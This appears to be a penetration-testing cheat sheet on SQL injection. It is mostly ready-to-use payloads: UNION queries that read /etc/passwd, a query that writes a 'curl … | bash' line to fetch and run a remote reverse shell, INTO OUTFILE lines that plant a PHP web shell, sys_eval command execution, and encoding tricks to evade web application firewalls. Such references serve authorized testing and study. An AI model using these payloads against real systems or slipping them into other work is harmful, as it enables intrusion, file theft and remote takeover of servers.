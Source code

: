 {% code overflow="wrap" fullWidth="true" %}
```sh
# READ FILES
' UNION SELECT 1,2,@@version,load_file('/etc/passwd') -- - '~/.bash_history
# READ PHP FILES
to_base64(load_file("")) 

#### WRITE FILES
# confirm if we can write files
SELECT @@secure_file_priv
SHOW VARIABLES LIKE 'secure_file_priv';
# Then write a file to get revshell using curl | bash
;select "curl 10.10.10.190/revshell |bash;" INTO OUTFILE  '/data/scripts/dbstatus.json';
# TO UPLOAD PHP INTO A FILE OF THE WEB SERVER (NEED TO GUESS DOCUMENT ROOT SUCH AS /var/www/html or C:\XXX)
' UNION SELECT 1,2,"<?php whatever ?>" into outfile "/var/www/html/file.php"-- -   '
admin@admin.com' union select null,null,null,null,'<?php system($_GET["cmd"]); ?>',null into outfile '/var/www/html/webshell.php' -- -
```
{% endcode %}

## Command Injection

```sql
' UNION SELECT NULL,sys_eval('whoami') FROM users-- -
```

## WAF Bypass - Filter Evasion Techniques

### Hackvertor

Use Hackvertor to bypass WAFs using html entities, hex entities and so on. For example:

{% code overflow="wrap" fullWidth="true" %}
```
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>
```
{% endcode %}

<pre class="language-sql" data-full-width="true"><code class="lang-sql">https://portswigger.net/research/bypassing-wafs-and-cracking-xor-with-hackvertor
<strong>Try hex encode for example
</strong>
field='value',field2=value&#x26;field3=value # URL encode first part

# In case a keyword is blocked -> linefeed 
keyword\n=this or keyword%0A=this
<strong>
</strong><strong># URL encoding
</strong>' OR 1=1-- can be encoded as %27%20OR%201%3D1--
Another way of representing OR can be ||
# Hexadecimal encoding
SELECT * FROM users WHERE name = 'admin' can be encoded as SELECT * FROM users WHERE name = 0x61646d696e
# Unicode encoding (scape ASCII filters)
admin can be encoded as \u0061\u0064\u006d\u0069\u006e
